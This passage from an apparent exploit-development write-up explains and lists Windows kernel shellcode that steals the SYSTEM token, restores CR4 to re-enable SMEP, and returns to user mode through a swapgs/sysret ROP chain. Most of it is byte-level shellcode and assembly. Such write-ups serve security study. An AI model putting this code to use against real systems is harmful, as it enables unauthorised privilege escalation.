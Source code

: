 ```asm
```

```c
// Steal SYSTEM token shellcode
memcpy((unsigned char*)(shellcode + 17), "\x65\x48\x8B\x04\x25\x88\x01\x00\x00\x48\x8B\x80\xB8\x00\x00\x00\x49\x89\xC0\x4D\x8B\x80\x48\x04\x00\x00\x49\x81\xE8\x48\x04\x00\x00\x4D\x8B\x88\x40\x04\x00\x00\x49\x83\xF9\x04\x75\xE5\x49\x8B\x88\xB8\x04\x00\x00\x80\xE1\xF0\x48\x89\x88\xB8\x04\x00\x00"
, 63);
```

Finally, the shellcode has to restore original value of CR4 (enable back SMEP) while still in kernel-mode and then return to user-mode safely.  
The moment CR4 gets restored, SMEP will be in effect. Therefore, to return to user-mode ROP chain has to be used again.  
Restoring CR4 is easy, the same CR4 gadget can be reused to overwrite CR4 with its original value.  

The tricky part is to return to user-mode. The code has to mimic the steps the original systemcall handler returns to user-mode, which means it needs a ROP gadget of "*swapgs; sysret*{: style="color: LightGreen"}". swapgs restores the user-mode GS register and sysret returns the CPU to Ring 3. The [sysret instruction](https://www.felixcloutier.com/x86/sysret) loads RIP from RCX,  loads RFLAGS from R11 and does not modify the stack pointer (RSP). This means that prior to calling it, the return address to the calling function (in my case - main) should be popped into RCX, the original value of RFLAGS should be moved in R12 and the stack should be restored in the state prior to calling the *__rop*{: style="color: LightGreen"} function.  

```asm
add rsp,0x18                         ; Restore stack; Return address of main is on top
pop rcx                              ; RCX = return address to main()
movabs rdx, gadget_swapgs_sysret_ret ; 
push rdx                             ; push address of sysret gadget

mov rax, 0x370678                    ; original CR4 value, to be used in cr4 gadget to restore it
sub rsp, 0x28                        ; setup stack for cr4 gadget
movabs rdx, gadget_mov_cr4_rax_add_rsp_20h_pop_rbx_ret
push rdx                             ; push address of CR4 gadget

mov    r11, r12                      ; restore RFLAGS; Last thing to do, to make sure it's not modified by any other instruction
ret                                  ; jump to CR4 gadget
```

And the C code for it:  

```c
// Cleanup
memcpy((unsigned char*)(shellcode + 80), "\x48\x83\xc4\x18", 4);               // add    rsp,0x18 ; Restore stack
memcpy((unsigned char*)(shellcode + 84), "\x59", 1);                           // pop rcx ; return address to main()
memcpy((unsigned char*)(shellcode + 85), "\x48\xc7\xc0\x78\x06\x37\x00", 7);   // mov    rax, 0x370678 ; to restore cr4
memcpy((unsigned char*)(shellcode + 92), "\x48\xba", 2);                       // movabs rdx, gadget_swapgs_sysret_ret
memcpy((unsigned char*)(shellcode + 94), &kernelAddress.gadget_swapgs_sysret_ret, 8);
memcpy((unsigned char*)(shellcode + 102), "\x52", 1);                          // push rdx
memcpy((unsigned char*)(shellcode + 103), "\x48\x83\xec\x28", 4);              // sub rsp, 0x28
memcpy((unsigned char*)(shellcode + 107), "\x48\xba", 2);                      // movabs rdx, gadget_mov_cr4_rax_add_rsp_20h_pop_rbx_ret
memcpy((unsigned char*)(shellcode + 109), &kernelAddress.gadget_mov_cr4_rax_add_rsp_20h_pop_rbx_ret, 8);
memcpy((unsigned char*)(shellcode + 117), "\x52", 1);                          // push rdx
memcpy((unsigned char*)(shellcode + 118), "\x4d\x89\xe3", 3);                  // mov    r11, r12  ; restore RFLAGS
memcpy((unsigned char*)(shellcode + 121), "\xc3", 1);                          // ret
```
